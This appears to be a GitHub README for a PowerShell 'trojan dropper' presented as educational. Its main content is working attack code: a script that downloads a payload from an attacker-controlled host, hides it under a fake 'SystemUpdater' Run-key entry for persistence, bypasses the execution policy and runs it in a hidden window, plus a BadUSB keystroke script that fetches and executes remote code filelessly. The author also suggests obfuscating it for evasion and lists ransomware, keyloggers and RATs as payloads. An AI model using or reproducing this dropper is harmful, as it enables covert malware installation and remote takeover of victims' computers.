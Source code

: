 # pwsh-payload-dropper

This repository contains a PowerShell script that demonstrates the functionality of a trojan dropper. A trojan dropper is a type of malware that downloads and installs malicious payloads onto a target system. 
## This script is intended for educational purposes only.

The script performs the following actions:

**Downloads a Payload:**

The script downloads a file (referred to as the "payload") from a remote URL specified in the $payloadURL variable.

The payload is saved to a specific location on the target machine, typically in the Public directory ($env:PUBLIC\update.ps1).

**Adds Persistence:**

The script adds a registry entry to the HKCU:\Software\Microsoft\Windows\CurrentVersion\Run path.

**Executes the Payload:**

The script sets the PowerShell execution policy to Bypass for the current process, allowing the payload to run without restrictions.

It then executes the downloaded payload (update.ps1) in a hidden window to avoid detection.

**The payload could be any malicious script or executable, such as:**

A remote access trojan (RAT) for unauthorized remote control.

A keylogger to capture sensitive information.

Ransomware to encrypt files and demand payment.

A cryptocurrency miner to exploit system resources.

## This script and the payload can both be obfuscated for further evasion. 
```
$filePath = "$env:PUBLIC\update.ps1" # This must be current with the payload type .exe,.py,.sh,.ps1 | in my testing I used a pwsh reverse shell, hence update.ps1
$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$regName = "SystemUpdater"
$payloadURL = "<YOUR_HOSTING_SERVER>/<YOUR_PAYLOAD>"

# Download the payload | you can also choose to obfuscate the payload first
Invoke-WebRequest -Uri $payloadURL -OutFile $filePath

# Add persistence to registry
Set-ItemProperty -Path $regPath -Name $regName -Value $filePath

# Set execution policy to bypass for the current process
Set-ExecutionPolicy Bypass -Scope Process -Force

# Execute the update.ps1 script
Start-Process -WindowStyle Hidden -FilePath "powershell.exe" -ArgumentList "-File `"$filePath`""
```
## You can also run this as a badusbscript fileless malware attack

just be sure to include this in your badusb script before running
```
STRING Set-ExecutionPolicy Bypass -Scope Process -Force
ENTER
DELAY 1000
STRING powershell -ExecutionPolicy Bypass -NoProfile -NonInteractive -Command "IEX (New-Object Net.WebClient).DownloadString('<http//your_server_ip:port>/<PAYLOAD_FILE>')"
ENTER
DELAY 1000
STRING exit
ENTER
```
# Disclaimer
This script is provided for educational and research purposes only. I do not condone or support the use of this script for malicious activities. Always ensure you have explicit permission before testing or deploying any script on a system.
